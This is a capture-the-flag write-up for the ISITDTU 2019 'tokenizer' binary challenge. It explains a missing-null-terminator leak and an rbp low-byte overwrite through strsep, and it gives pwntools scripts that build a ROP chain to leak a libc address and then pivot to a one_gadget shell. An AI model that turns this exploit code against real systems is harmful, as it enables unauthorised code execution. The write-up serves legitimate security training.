# ISITDTU 2019 - tokenizer

Unknown origin challenge link! But you can download challenge here: [tokenizer.zip](tokenizer.zip)

There will be 2 file in zip:
- libc-2.27.so
- tokenizer

Download it, then use pwninit or patchelf to patch file. And now, let's start!

# 1. Find bug

First, we will use `file` command to check infomation:
```
tokenizer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d6d2efdaea33704f6b856448518e5ec08736c50d, for GNU/Linux 3.2.0, stripped
```
This is a 64-bit file challenge and it was stripped. Next, let's check for security by using `checksec`:
```
Arch:     amd64-64-little
RELRO:    <strong>Full RELRO</strong>
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
We can see that `NX enabled` and `Full RELRO` so stack cannot be executed and @got cannot be overwrite. Finally, let's fire up ghidra and decompile the file. I will rename 3 main function as follow:

main()



main_logic()



and parse()



In main_logic(), the input is unlimited but it then copy with 0x400 character to a local buffer. But because in the prolouge of main_logic(), rsp is subtracted with 0x400:



So there will be no buffer overflow. Anyway, let's continue!

In parse(), the command strsep() will overwrite the character, which appear in delimiter variable, to null byte and then update the string pointer. And that's all 3 function. We cannot find any bug just by decompiling program. So let's run file in gdb to check more.

Ask we know we can input unlimited, then that input will be copy just 0x400 character from the begining to stack. Let's set breakpoint after strncpy() and check whether our input cause something interesting. First, we generate 2000 byte payload and enter it to program:


We can see the stack contain the begining of our payload:



Let's check saved rbp and rip with command `x/150xg $rsp`:



Rbp didn't be overwriten, but our input just fit the stack. If we look more carefully, we can see that our input after strncpy() doesn't have null byte at the end. And we also have command `strsep()` which will change any byte indicated by delimitor to null byte. 

That's mean we can change **least significant byte** of rbp to null byte and make program run our shellcode (just a small space but that maybe enough).

# 2. Idea

- First idea:

Because stack is non-execute, we cannot write our shellcode to stack and make it run. So we will use ROP to chain our payload together. At first, we can build up ROPchain which execute execve or system directly but not successful. So we have second idea.

- Second idea:

As above idea mention, we will use ROPchain. But instead of execute execve directly, we will leak some libc address then calculate one_gadget and pass it to program.

- Summary:
  1. Leak address and calculate one_gadget address
  2. Pass one_gadget to spawn shell

# 3. Exploit

  - Step 1: Leak address and calculate one_gadget address

The first thing in this exploit is that we will change the LSB of rbp to null to make it ret to our shellcode. Let's create 1024 bytes payload and pass to program:



Oh wait! What's are those `���`? Something is leaked. That's because as we mentioned above, our input after strncpy() doesn't have null byte to seperate our input with rbp. So those `���` are just the leak of rbp. Let's write script to get rbp address for future use.
```
from pwn import *

inp_str1 = b'A'*1024

p = process('./tokenizer_patched')
p.recvuntil(b'characters):')
p.sendline(inp_str1)
data = p.recvuntil(b'delimiters:')
data = u64(data.split(b'truncated: ')[1][1024:1024+6] + b'\x00'*2)

print(hex(data))
```
Run several time and we know that rbp will change from 0x00 to 0xf0. This time, we will need to brute force to make sure rbp end with 0xf0 to make space for our payload when 0xf0 turn into 0x00. Let's put the above code to a while and check when it ends with 0xf0:
```
from pwn import *

inp_str1 = b'A'*1024

while True:
	p = process('./tokenizer_patched')
	p.recvuntil(b'characters):')
	p.sendline(inp_str1)
	data = p.recvuntil(b'delimiters:')
	data = u64(data.split(b'truncated: ')[1][1024:1024+6] + b'\x00'*2)

	print(hex(data))
	if hex(data)[-2:]!='f0':
		p.close()
		continue
	p.interactive()
```

Run it:



That's great! Now we will need some gadgets to leak address as following:
```
pop_rdi_ret = 0x000000000040149b				# ROPgadget
pop_rsi_r15_ret = 0x0000000000401499				# ROPgadget
cout = 0x0000000000404020					# readelf -r
strsep_got = 0x0000000000403f98					# readelf -r
basic_ostream_plt = 0x0000000000401080				# gdb
return_addr = 0x000000000040133c				# gdb
```
But as we know strncpy() will end at null byte. So how can we input those null byte to stack via strncpy()? The answer is we will not put those null byte to payload, we will change those null byte to another byte (ex: 0xaf), then we input 0xaf to delimiter and it will be converted to null byte later in strsep().

Another example:
```
pop_rdi_ret = 0x000000000040149b			# Origin
inp_str = p64(0xf0f0f0f0f040149b)			# This one will be put in payload
delim = p8(0xf0)											# Will overwrite 0xf0 to 0x00
```

Having found offset after LSB of rbp change to 0x00, we have the following first inp_str and delim with `LSB1=0xf0` (as LSB of rbp):
```
LSB1 = 0xf0
inp_str1 = b'A'*(1024 - LSB + 0x20)			# Calculate pad for payload
inp_str1 += b'BBBBBBBB'					# Fake rbp
inp_str1 += p64(pop_rdi_ret)				# rdi
inp_str1 += p64(cout)					# rdi
inp_str1 += p64(pop_rsi_r15_ret)			# rsi
inp_str1 += p64(strsep_got)				# rsi
inp_str1 += b'15151515'					# Fake r15
inp_str1 += p64(basic_ostream)				# Run cout
inp_str1 += p64(return_func)				# Return function
inp_str1 = inp_str1.ljust(1024, b'P')			# Pad to 1024 bytes
inp_str1 = inp_str1.replace(b'\x00', p8(LSB1))		# Change null byte to delim byte

delim1 = p8(LSB1)
```
If everything is ok, we will get the program to input again.



We can also notice that before the string `Welcome to Tokenizer beta 0.1`, there is some leaked address. Let's attach to gdb and check which one is strncpy() address with this command:
```
gdb.attach(p, '''p&strsep''')
```

I changed to strsep because strncpy cause some error. The image wasn't updated because I'm so lazy :D



So the strsep() address will be right before the string `Welcome to Tokenizer beta 0.1`. Let's get that and calculate one_gadget address.

There are just 3 one_gadget and we will use the second one:



  - Step 2: Pass one_gadget to spawn shell

In the second input, the offset is still the same (1024 bytes without null byte terminate). We will use the same technique as above (LSB) to pivot stack to our one_gadget. Our second payload as following:
```
LSB2 = 0x38
inp_str2 = b'A'*1000
inp_str2 += b'BBBBBBBB'
inp_str2 += p64(one_gadget_addr)
inp_str2 = inp_str2.ljust(1024, b'P')
inp_str2 = inp_str2.replace(b'\x00', p8(LSB2))

delim2 = p8(LSB2)
```
I chose `LSB2=0x38` because at second input, saved rbp change LSB address from 0xf0 to 0x38.



As the constraints of one_gadget `[rsp+0x40] == NULL` so let's check if it is statisfied when rip jumped in one_gadget:



It doesn't null but it full of `P` (padding). So just simply change ljust from 'P' to '\x00' and that would work.

Full code: [solve.py](solve.py)

# 4. Get flag

Because server closed so I will run it on local machine instead.

